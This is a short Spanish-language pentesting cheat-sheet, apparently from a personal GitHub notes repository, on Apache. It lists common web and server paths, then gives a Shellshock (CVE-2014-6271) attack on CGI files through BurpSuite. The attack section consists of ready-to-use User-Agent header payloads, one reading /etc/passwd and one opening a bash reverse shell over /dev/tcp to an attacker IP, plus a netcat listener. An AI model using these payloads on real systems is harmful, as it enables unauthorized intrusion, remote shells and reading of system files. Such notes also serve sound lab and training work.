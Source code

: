 # Apache

Tags: #Apache #Servidor #ShellShock 

Apache es un servidor web para el sistema operativo Linux

## Rutas típicas de Apache en la web 

```python
/admin                               # Muestra informacion 'sensible' 
/phpinfo.php                         # Informacion del php

# Rutas en consola 
/var/www/html                        # Ruta de Apache o Nginx
/etc/apache2/sites-enabled/          # Ruta de Apache
/opt/blog/server.js                  # Ruta por default de Node.js
```

## Shellshock (CVE-2014-6271)

* Esta vulnerabilidad la encontramos cuando tenemos un archivo **.cgi**
* Podemos hacer el ataque con BurpSuite.

```bash 
❯ BurpSuiteCommunity &> /dev/null & disown     # Abrimos BurpSuite y lo colocamos en segundo plano, interceptamos el trafico de la web, lo mandamos al Repeater y en la cabecera de 'User-Agent' es donde inyectaremos los comandos.

❯  () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd' # El resultado de los comandos lo veremos en BurpSuite en la parte del Response.

❯ () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/<IP>/443 0>&1' # Este comando lo colocamos en BurpSuite, pero antes de ejecutarlo nos ponemos en escucha con Netcat
❯ nc -nlvp 443    # Nos colocamos en escucha para recibir la ReverShell
 
```



